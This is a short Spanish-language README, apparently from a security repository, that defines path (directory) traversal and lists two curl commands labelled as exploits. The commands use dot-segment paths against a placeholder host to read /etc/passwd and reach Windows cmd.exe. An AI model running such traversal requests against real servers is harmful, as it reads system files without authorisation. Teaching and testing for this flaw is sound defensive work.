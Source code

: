 ## directoriotrasversal
##
Path Traversal (o Directory Traversal) es una vulnerabilidad web que permite a un atacante acceder a archivos y directorios fuera del directorio raíz del servidor web.
#
## Exploits para explotar la vulnerabilidade de directorio trasversal o path traversal.
#

curl --path-as-is -k -v http://ip:80/../../../../../etc/passwd

curl --path-as-is -k -v http://ip:80/../../../../../../windows/system32/cmd.exe

## http://www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html
